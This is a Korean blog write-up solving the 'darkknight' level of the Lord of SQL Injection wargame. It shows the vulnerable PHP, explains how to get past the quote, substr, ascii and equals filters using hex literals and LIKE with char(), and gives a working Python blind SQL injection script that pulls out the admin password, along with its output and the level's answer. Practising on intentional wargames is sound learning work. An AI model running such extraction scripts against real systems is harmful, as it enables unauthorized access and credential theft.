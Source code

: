 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - darkknight 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


아 뭔가 쓸데없이 오타도 많이내고, 뭔가 자잘한 삽질을 많이 한 문제이다.  

잠을 제대로 못자서 그런건지 바보같은 삽질을 했다.  

`darkknight` 라는 문제인데, 얘도 `Blind SQL Injection` 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='' and no=
---------------------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

이번엔 `ascii`도 사용을 못하고 `'`도 사용할 수 없다.  

그럼 쿼리문에서 사용하는 `id = 'admin'`이라는 문자를 사용할 수 없다.  

이 문제에 대해서는 금방 답을 찾았다.  

바로 `hex` 값을 이용하는 것이다.  

`id = 'admin'` 대신 `id = 0x61646d696e`를 입력해도 같은 결과를 얻을 수 있다.  

그럼 `admin`의 `pw`의 길이를 구하는 쿼리는 아래와 같이 완성된다.  

```
?pw=1&no=0 or id like 0x61646d696e and length(pw) like 1
```

문제는 `pw`를 한 글자 씩 알아낼 때 이다.  

`'`를 사용할 수 없으므로, `mid` 함수를 통해 `pw`를 한 글자 씩 뽑는다 하더라도 비교를 할 수가 없다.  

처음에는 MySQL에 있는 `hex` 함수를 사용할까 했다.  

여기서 삽질한게, `hex`는 `10진수를 16진수 값으로` 혹은 `16진수를 10진수 값으로` 바꾸어주는 함수인데, 나는 이걸 알고있었는데도 `16진수 값을 입력하면 비교가 되겠지!` 하고 생각했다.  

추출되는 값은 `char` 형태의 문자기 때문에 당연히 비교할 수 없다.  

그 다음에는 `char` 함수를 사용하는 것을 생각했다.  

여기서 두번째 삽질을 했는데, `char` 함수의 인자는 `10진수 숫자`가 들어가야 한다.  

근데 코드를 이 전에 풀었던 코드를 가져와 살짝만 수정해서 사용하다보니, 파이썬 코드에서 `chr(i)`를 쿼리의 `char` 함수의 인자로 넣어주고 있었다.  

문제가 안풀리길래 `도대체 왜지...` 이러다가 쿼리를 출력 해 보고서야 깨달았다.  

쨌든 `pw`를 구하는 쿼리는 다음과 같은 형태가 된다.  

```
?pw=1&no=0 or id like 0x61646d696e and mid(pw, 1, 1) like char(48)
```

우여곡절 끝에 완성된 코드는 다음과 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1&no=0 or id like 0x61646d696e and length(pw) like " + str(i)
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1&no=0 or id like 0x61646d696e and mid(pw, " + str(j) + ", 1) like char(" + str(i) + ")"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

드디어 제대로 된 결과를 얻을 수 있었다.  

쓸데없는 삽질 후에 얻은 값진 `admin`의 `pw`이다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 0B
[+] Found 3 : 0B7
[+] Found 4 : 0B70
[+] Found 5 : 0B70E
[+] Found 6 : 0B70EA
[+] Found 7 : 0B70EA1
[+] Found 8 : 0B70EA1F
[+] Found password :  0B70EA1F
[+] End
```

알파벳 소문자로 바꿔서 아래와 같이 입력하면 문제가 풀린다.  

```
?pw=0b70ea1f
```

```php
--------------------------------------------------------------------------------------------------------------
query : select id from prob_darkknight where id='guest' and pw='0b70ea1f' and no=
--------------------------------------------------------------------------------------------------------------

DARKKNIGHT Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>
```

`DARKKNIGHT Clear!!`
